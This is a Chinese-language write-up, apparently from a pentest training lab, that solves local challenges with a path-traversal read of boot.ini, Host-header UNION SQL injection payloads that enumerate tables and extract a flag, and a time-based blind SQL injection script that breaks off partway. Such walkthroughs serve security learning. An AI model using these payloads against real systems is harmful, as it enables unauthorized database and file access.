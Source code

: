 ```bash
Accept-Encoding: gzip, deflate
Referer: http://192.168.3.129/pentest/test/12/
Cookie: PHPSESSID=eh6c536efhrbjh9tbfupi72sd0
X-Forwarded-For: 10.10.10.10
Connection: close
Upgrade-Insecure-Requests: 1
Referer:  www.baidu.com
```
# 中级进阶
## 出来一点东西
这道题本身有点问题，不过知道是任意文件读取就行啦。读取boot.int,试一下，可以成功
```bash
http://192.168.3.129/pentest/test/13/?country=../../../../../../boot.ini
```
## 提交方式是什么样的
任意文件读取，变成post方式
## 我还是一个注入
查看后台源码，才知道是host注入。
```bash
Host:  order by  4
```
```bash
Host:  union select 1,2,3,4
```
```bash
Host:  union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database()
```
```bash
Host:  union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name=0x666C6167
```
```bash
Host:  union select 1,2,3,flag from flag
```
## 看看pak
逆向题不懂
## 时间盲注
运行有点卡，附上脚本自己试一下吧

```bash
#coding:'utf-8'
import requests
import time
import string
payloads=string.printable
length=0
result=''
print('start')
# 判断长度
for i in range(1,33):
    startTime=time.time()
    url="http://192.168.3.129/pentest/test/time/?type=2 and if(length(database())=%d,sleep(5),1)"%(i)
    #url="http://192.168.3.129/pentest/test/time/?type=2 and if(length(select group_concat(table_name) from information_schema.tables where table_schema=database())=%d,sleep(5),1)"%(i)
    #url="http://192.168.3.129/pentest/test/time/?type=2 and if(length(select group_concat(column_name) from information_schema.columns where table_schema= )=%d,sleep(5),1)"%(i)
```